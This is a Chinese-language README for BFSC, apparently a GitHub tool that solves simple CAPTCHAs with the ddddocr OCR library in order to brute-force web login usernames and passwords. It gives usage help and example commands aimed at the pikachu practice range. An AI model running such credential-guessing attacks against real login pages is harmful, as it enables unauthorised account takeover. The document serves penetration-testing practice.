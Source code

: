 # BFSC 简单验证码爆破工具

brute-force attack with simple CAPTCHA
利用ddddocr离线orc工具，实现简单验证码的识别，从而对web页面进行用户名和密码爆破

## 环境准备

- python3.x环境
- 安装依赖包：

```bash
pip install requests, ddddocr
```

## 使用方法

使用工具爆破验证码需要知道login页面的url和获取验证码的url。

验证证码的url可以通过浏览器的开发者模式获取。在登录页面按f12进入开发者模式，点击network抓包，点击验证码图片刷新，可以找到验证码的url。
其他的可选参数也可以通过network抓包或BurpSuite抓包来获取。
使用如下命令进行爆破：

```
python bfsc.py [-h] [-d] [-u] [-p] [--header] [--hash_type] [--error_code] [--proxy] login_url code_url
```

其中 login_url 是登录页面的url，code_url 是获取验证码的url，是必选参数。

使用帮助如下：
```bash
验证码爆破工具

positional arguments:
  login_url             login URL
  code_url              vcode URL

options:
  -h, --help            show this help message and exit
  -d, --post_data       post_params, like 'username=admin&password=123456&vcode=1234&submit=submit'
  -u, --user_file       username dict file
  -p, --pass_file       password dict file
  --header              Custom request headers, Key:Value
  --hash_type           password encrypt type, support:md5,sha1,sha512
  --error_msg           code error message
  --proxy               HTTP proxy, like http://127.0.0.1:8080
```

其中：
hash_type 用于指定密码加密方式，支持 md5, sha1, sha512 三种方式，默认不加密。
error_code 选项用于指定验证码错误后的页面返回的提示，可以提高验证码识别成功率。
原因是ddddocr识别验证码的准确率并非100%，使用error_code参数可以让工具检测到登录错误原因是验证码识别错误，通过多次识别的方式，避免因验证码错误而错过关键密码。

## 示例

以pikachu靶场的验证码爆破为例

- 指定post表单

```bash
python bfsc.py http://pikachu.shifa23.com/vul/burteforce/bf_server.php http://pikachu.shifa23.com/inc/showvcode.php -d "username=admin&password=123456&vcode=jydqor&submit=Login"
```

- 自定义字典文件, 也可以修改dict文件夹中的默认字典

```bash
python bfsc.py http://pikachu.shifa23.com/vul/burteforce/bf_server.php http://pikachu.shifa23.com/inc/showvcode.php -d "username=admin&password=123456&vcode=jydqor&submit=Login" -u username_dict_path -p password_dict_path
```

- 指定http header

```bash
python bfsc.py http://pikachu.shifa23.com/vul/burteforce/bf_server.php http://pikachu.shifa23.com/inc/showvcode.php -d "username=admin&password=123456&vcode=jydqor&submit=Login" --header 'User-Agent: Curl' --header 'Accept-Language: zh-CN' 
```

- 密码为hash加密传输 支持 md5、sha1、sha512

```bash
python bfsc.py http://pikachu.shifa23.com/vul/burteforce/bf_server.php http://pikachu.shifa23.com/inc/showvcode.php  -d "username=admin&password=123456&vcode=jydqor&submit=Login"  --hash_type md5 
```

- 指定验证码错误信息

```bash
python bfsc.py http://pikachu.shifa23.com/vul/burteforce/bf_server.php http://pikachu.shifa23.com/inc/showvcode.php -d "username=admin&password=123456&vcode=jydqor&submit=Login"  --error_code 验证码输入错误
```

- 添加http代理

```bash
python bfsc.py http://pikachu.shifa23.com/vul/burteforce/bf_server.php http://pikachu.shifa23.com/inc/showvcode.php  -d "username=admin&password=123456&vcode=jydqor&submit=Login"  --proxy http://127.0.0.1:8080
```

爆破过程会打印在控制台窗口，并在脚本目录生成log日志。